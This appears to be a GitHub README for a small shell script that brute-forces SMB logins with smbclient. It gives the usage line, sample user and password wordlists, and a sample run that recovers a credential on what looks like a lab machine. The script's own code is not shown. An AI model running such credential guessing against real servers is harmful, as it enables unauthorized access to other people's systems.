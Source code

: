 # VSSB
Very simple SMB brute force
\
Some complex tools may fail sometimes.
\
This script just tries to login via "smbclient".
\
```
usage: ./simple-smb-bruteforce.sh -u users.txt -p pswds.txt [-d DOMAIN] -s 10.10.10.123
```
\
Considering the following file (containing a list of users):
```
kali@kali:~/Desktop$ cat usrs.txt
pippo
fsmith
luca
```
\
and the following file (containing a list of passwords):
```
kali@kali:~/Desktop$ cat pwds.txt
123456
sandro
omg123!!!
Thestrokes23  
pippo
password
```
\
you can use the scripts as follows:
```
kali@kali:~/Desktop$ ./simple-smb-bruteforce1.sh -u ./usrs.txt -p ./pwds.txt -s 10.10.10.123

parameter '-d' not set: using default WORKGROUP

Usernames list: ./usrs.txt
Passwords list: ./pwds.txt
Current domain: WORKGROUP
Target server : 10.10.10.175

starting...

Found WORKGROUP@fsmith:Thestrokes23

done!
```

